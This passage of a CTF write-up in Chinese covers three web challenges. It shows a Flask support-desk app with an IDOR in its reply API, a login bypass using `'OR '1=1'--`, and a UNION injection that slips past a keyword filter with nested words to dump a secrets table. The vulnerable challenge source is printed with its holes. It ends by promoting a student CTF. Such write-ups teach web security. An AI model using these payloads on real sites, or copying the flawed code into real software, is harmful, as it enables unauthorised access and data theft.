</body></html>
"""


@app.route("/")
def root():
    return redirect(url_for("dashboard" if session.get("user_id") else "login"))


@app.route("/login", methods=["GET", "POST"])
def login():
    err = ""
    if request.method == "POST":
        u = request.form.get("username", "")
        p = request.form.get("password", "")
        rec = USERS.get(u)
        if rec and rec[0] == p:
            session["username"] = u
            session["user_id"] = rec[1]
            return redirect(url_for("dashboard"))
        err = '<p class="err">帳號或密碼錯誤。</p>'
    return LOGIN_HTML % err


@app.route("/logout")
def logout():
    session.clear()
    return redirect(url_for("login"))


# ==========================================================================
#                          HTML pages (properly scoped)
# ==========================================================================

@app.route("/dashboard")
def dashboard():
    uid, uname = current_user()
    if not uid:
        return redirect(url_for("login"))

    mine = [(u, t) for u, t in TICKETS.items() if t["owner_id"] == uid]
    rows = "".join(
        f'<tr><td><code>{u[:8]}…</code></td>'
        f'<td><a href="/tickets/{u}">{html.escape(t["subject"])}</a></td></tr>'
        for u, t in mine
    ) or '<tr><td colspan="2"><i>你還沒有任何 ticket。</i></td></tr>'

    return f"""<!DOCTYPE html>
<html lang="zh-TW"><head><meta charset="UTF-8"><title>SupportDesk · 首頁</title>
<style>
body{{font-family:-apple-system,sans-serif;max-width:720px;margin:32px auto;padding:0 16px;color:#222}}
h1{{color:#204e4a}}nav a{{margin-right:12px;color:#204e4a}}
table{{width:100%;border-collapse:collapse}}
td,th{{padding:8px;border-bottom:1px solid #eee;text-align:left}}
</style></head><body>
<nav><a href="/dashboard">首頁</a><a href="/logout">登出</a></nav>
<h1>嗨，{html.escape(uname)}！</h1>
<p>你的工單列表：</p>
<table><thead><tr><th>UUID</th><th>Subject</th></tr></thead>
<tbody>{rows}</tbody></table>
</body></html>"""


@app.route("/tickets/<ticket_uuid>")
def ticket_page(ticket_uuid):
    uid, uname = current_user()
    if not uid:
        return redirect(url_for("login"))

    t = TICKETS.get(ticket_uuid)
    if not t:
        abort(404)
    # ✓ 這裡有做 ownership check
    if t["owner_id"] != uid:
        abort(403)

    replies = [(rid, r) for rid, r in REPLIES.items() if r["ticket"] == ticket_uuid]
    items = "".join(
        f'<li><b>Reply <code>#{rid}</code></b> by {_display(r["author_id"])}: '
        f'<div class="body">{html.escape(r["body"])}</div>'
        f'<small><a href="/api/replies/{rid}">view JSON</a></small></li>'
        for rid, r in sorted(replies)
    ) or "<i>還沒有回覆。</i>"

    return f"""<!DOCTYPE html>
<html lang="zh-TW"><head><meta charset="UTF-8"><title>Ticket · {html.escape(t["subject"])}</title>
<style>
body{{font-family:-apple-system,sans-serif;max-width:720px;margin:32px auto;padding:0 16px;color:#222}}
h1{{color:#204e4a}}nav a{{margin-right:12px;color:#204e4a}}
.meta{{color:#888;font-size:12px}}
.body{{background:#eef9f7;padding:12px;border-radius:6px;margin:6px 0;line-height:1.5}}
li{{margin-bottom:16px;list-style:none}}
</style></head><body>
<nav><a href="/dashboard">← 回首頁</a><a href="/logout">登出</a></nav>
<h1>{html.escape(t["subject"])}</h1>
<p class="meta">Ticket UUID: <code>{ticket_uuid}</code></p>
<h3>Replies</h3>
<ul>{items}</ul>
</body></html>"""


# ==========================================================================
#                              JSON API
# ==========================================================================

@app.route("/api/tickets")
def api_tickets():
    uid, _ = current_user()
    if not uid:
        return jsonify({"error": "not authenticated"}), 401
    mine = [{"uuid": u, "subject": t["subject"]}
            for u, t in TICKETS.items() if t["owner_id"] == uid]
    return jsonify(mine)


@app.route("/api/tickets/<ticket_uuid>")
def api_ticket_detail(ticket_uuid):
    uid, _ = current_user()
    if not uid:
        return jsonify({"error": "not authenticated"}), 401
    t = TICKETS.get(ticket_uuid)
    if not t:
        return jsonify({"error": "not found"}), 404
    # ✓ ownership check
    if t["owner_id"] != uid:
        return jsonify({"error": "forbidden"}), 403
    replies = [{"id": rid, "author_id": r["author_id"], "body": r["body"]}
               for rid, r in REPLIES.items() if r["ticket"] == ticket_uuid]
    return jsonify({"ticket": {"uuid": ticket_uuid, "subject": t["subject"]},
                    "replies": replies})


@app.route("/api/replies/<int:rid>")
def api_reply(rid):
    uid, _ = current_user()
    if not uid:
        return jsonify({"error": "not authenticated"}), 401

    r = REPLIES.get(rid)
    if not r:
        return jsonify({"error": "not found"}), 404

    # !!! IDOR: 沒有檢查這個 reply 所屬的 ticket 是不是當前 user 的 !!!
    # 正確作法：
    #   ticket = TICKETS[r["ticket"]]
    #   if ticket["owner_id"] != uid: return jsonify({"error": "forbidden"}), 403

    return jsonify({
        "id": rid,
        "ticket": r["ticket"],
        "author_id": r["author_id"],
        "body": r["body"],
    })


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```

我們可以看到 REPLIES 有定義一個 42 的回應，且他的 api_reply 並沒有做好身份防護，於是我們就直接打開 42 就可以看到 Flag 了！  
https://web06.ctf.ga24.me/api/replies/42
```txt
{
  "author_id": 1,
  "body": "順帶記錄一下：新產生的 API token = FLAG{ch1ld_0bj3cts_n33d_auth_t00}",
  "id": 42,
  "ticket": "9f2c8e63-1c0a-4c3f-a1e7-3f9f5a2c1a01"
}
```
#### Flag

```txt
FLAG{ch1ld_0bj3cts_n33d_auth_t00}
```

## Web / SQL Injection

### [MiniBoard](https://ctf.ga24.me/challenges#MiniBoard-7) (150)

#### 題目

MiniBoard 是公司內部的員工布告欄，只有註冊員工可以登入。你沒有帳號，但……有 SQL Injection。

網站：<https://web07.ctf.ga24.me>

#### 解題心得

這題就是一個很明確的 SQL injection 的題目，簡單來說就是串改原本意思，讓他永遠都是成立，讓系統可以登入。那就輸入大名鼎鼎的 `'OR '1=1'--` 就可以成功登入了！

原理大概是這樣，當我們填入這個語句時，他會執行類似這樣的 SQL 語法：
```sql
SELECT * FROM users
WHERE username = '' OR 1=1 -- '
AND password = 'x';
```
`1=1` 永遠為 True（除非有一天數學崩塌了www），而 `--` 會把後面的東西都註解掉。送出後就會看到我們心心念念的 Flag 拉！

```txt
internal notes: monthly rotation done.
flag = FLAG{unsan1t1z3d_1nput_g03s_str41ght_1nt0_sql}
```

#### Flag

```txt
FLAG{unsan1t1z3d_1nput_g03s_str41ght_1nt0_sql}
```

### [BookHub — Secure Search](https://ctf.ga24.me/challenges#BookHub%20%E2%80%94%20Secure%20Search-8) (300)

#### 題目

BookHub 上一版被 pentester 爆了 SQL Injection。v2 上線了「Secure Search」：所有 query 經過 `sanitize()`，過濾 `union` / `select` 關鍵字（不分大小寫）。

「這次真的安全了。」真的嗎？

網站：<https://web08.ctf.ga24.me>

附件：`app.py`

#### 解題心得

這題有附原始碼就先來看一下吧：
```py collapse={1-27, 47-53, 62-137}
from flask import Flask, request
import sqlite3
import os
import re
import html

app = Flask(__name__)
DB_PATH = "/tmp/web08.db"


def init_db():
    if os.path.exists(DB_PATH):
        os.remove(DB_PATH)
    conn = sqlite3.connect(DB_PATH)
    conn.executescript("""
    CREATE TABLE books (
        id             INTEGER PRIMARY KEY,
        title          TEXT,
        author         TEXT,
        published_year INTEGER
    );
    CREATE TABLE secrets (
        id    INTEGER PRIMARY KEY,
        name  TEXT,
        value TEXT
    );
    """)
    conn.executemany(
        "INSERT INTO books (title, author, published_year) VALUES (?, ?, ?)",
        [
            ("Designing Data-Intensive Applications", "Martin Kleppmann", 2017),
            ("The Pragmatic Programmer",              "Andy Hunt",        1999),
            ("Clean Code",                            "Robert C. Martin", 2008),
            ("SQL Antipatterns",                      "Bill Karwin",      2010),
            ("Head First Design Patterns",            "Eric Freeman",     2004),
            ("Site Reliability Engineering",          "Betsy Beyer",      2016),
        ],
    )
    conn.executemany(
        "INSERT INTO secrets (name, value) VALUES (?, ?)",
        [
            ("db_backup_key",      "not-the-flag-this-is-a-decoy"),
            ("internal_api_token", "FLAG{OSGAGAWULALA}"),
            ("smtp_password",      "please-rotate-me"),
        ],
    )
    conn.commit()
    conn.close()


init_db()


def sanitize(q: str) -> str:
    """
    v2 「安全」過濾：把 union / select 拿掉，case-insensitive。
    看起來很嚴，但是**只做一次、非遞迴**的替換。
    """
    for word in ("union", "select"):
        q = re.sub(word, "", q, flags=re.IGNORECASE)
    return q


PAGE_HTML = """<!DOCTYPE html>
<html lang="zh-TW"><head><meta charset="UTF-8"><title>BookHub · Secure Search</title>
<style>
body{font-family:-apple-system,sans-serif;max-width:820px;margin:32px auto;padding:0 16px;color:#222}
h1{color:#4a5d23}sup{font-size:12px;color:#4a5d23;background:#e8f0d8;padding:2px 6px;border-radius:10px;margin-left:8px}
form{margin:16px 0}input{padding:8px;width:360px}
button{padding:8px 14px;background:#4a5d23;color:#fff;border:0;border-radius:4px;cursor:pointer}
table{width:100%%;border-collapse:collapse;margin-top:16px}
td,th{padding:8px;border-bottom:1px solid #eee;text-align:left;vertical-align:top}
.err{background:#ffe6e6;padding:12px;border-radius:6px;font-family:monospace;font-size:12px;white-space:pre-wrap;word-break:break-all;margin-top:16px}
.hint{color:#888;font-size:12px;margin-top:24px}
.q{color:#888;font-size:12px;font-family:monospace;word-break:break-all;margin-top:12px}
</style></head><body>
<h1>BookHub <sup>v2 · Secure Search</sup></h1>
<form method="GET" action="/search">
  <input name="q" placeholder="search books by title..." value="%s">
  <button>Search</button>
</form>
%s
<p class="hint">
  v2 更新：所有 query 都經過 <code>sanitize()</code>，過濾 <code>union</code> / <code>select</code> 關鍵字（case-insensitive）。放心搜尋！
</p>
</body></html>
"""


def render(raw_q: str, body_html: str) -> str:
    return PAGE_HTML % (html.escape(raw_q), body_html)


@app.route("/")
def index():
    return render("", "")


@app.route("/search")
def search():
    raw = request.args.get("q", "")
    q   = sanitize(raw)

    # !!! VULN: 過濾後仍然用字串串接進 SQL !!!
    sql = f"SELECT title, author, published_year FROM books WHERE title LIKE '%{q}%'"

    conn = sqlite3.connect(DB_PATH)
    try:
        rows = conn.execute(sql).fetchall()
    except sqlite3.Error as e:
        conn.close()
        return render(
            raw,
            f'<div class="err">SQL error: {html.escape(str(e))}\n\nquery: {html.escape(sql)}</div>',
        )
    conn.close()

    if not rows:
        body = f'<p>No results.</p><p class="q">query: {html.escape(sql)}</p>'
    else:
        trs = "".join(
            f"<tr><td>{html.escape(str(r[0]) if r[0] is not None else '')}</td>"
            f"<td>{html.escape(str(r[1]) if r[1] is not None else '')}</td>"
            f"<td>{html.escape(str(r[2]) if r[2] is not None else '')}</td></tr>"
            for r in rows
        )
        body = (
            "<table><thead><tr><th>Title / col1</th><th>Author / col2</th><th>Year / col3</th></tr></thead>"
            f"<tbody>{trs}</tbody></table>"
            f'<p class="q">query: {html.escape(sql)}</p>'
        )

    return render(raw, body)


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```
我們可以看到，這裡有兩份的 SQL 表，分別是名為 `books` 的表和 `secrets` 的表。 這兩個表分別有下列元素 `title`, `author`, `published_year` 和 `name`, `value`。 而且從代碼我們可以發現他也是進行字串替換，但我們還是可以讓他連起來後還是相同語句意思。

接下來補充一點 SQL 知識，`SELECT`是進行查詢。`UNION`是指把多個查詢結果合併成一個結果集。

所以在這題我們可以輸入 `' UNUNIONION Selselectect name,value,0 from secrets--`
那最後後端會拿到的查詢語句就是這樣：
`WHERE title LIKE '%' UNION SELECT name, value, 0 FROM secrets--%'`

就可以正確的輸出 Flag 啦！

（補充一下為什麼要有 0，因為原本 `books` 是三欄，但 `secrets` 只有兩欄，所以補零讓所有欄位都有零，這樣就不會報錯ㄌ！

#### Flag

```txt
FLAG{sqli_f1lter_bl4ckl1st_g3ts_n3st3d}
```

### 總結

這份 CTF 其實還蠻簡單的，那既然說到了 CTF，我就不得不提到一個專門為臺灣高中職學生所打造的 CTF，THJCC CTF。

::link{url="https://thjcc.org/" text="THJCC CTF 官方網站" icon="https://thjcc.org/2026-summer/logo.png"}

THJCC CTF 是專為臺灣高中職生打造的線上資安競賽，由 SCINT 北臺灣學生資訊社群與全國各地熱愛資安的學生共同主辦，並獲得多個資安組織與單位支持。延續歷屆賽事精神，今年暑假我們帶來 THJCC CTF 3rd Summer Edition，希望讓更多學生在假期中接觸資安、挑戰自我，也認識同樣熱愛技術的夥伴。

準備好在暑假一起解題、學習、交流了嗎？THJCC CTF 3rd Summer Edition 等你來報名！

📌 比賽形式｜線上 Jeopardy CTF  
📌 題目類型｜Web / Reverse / Crypto / Pwn / Misc  
📌 適合對象｜臺灣高中職生、CTF 初學者與進階玩家  
📌 Discord｜https://dc.thjcc.org  

(雖然我上架這篇文章的時間就結束了，不過還是要宣傳一下www)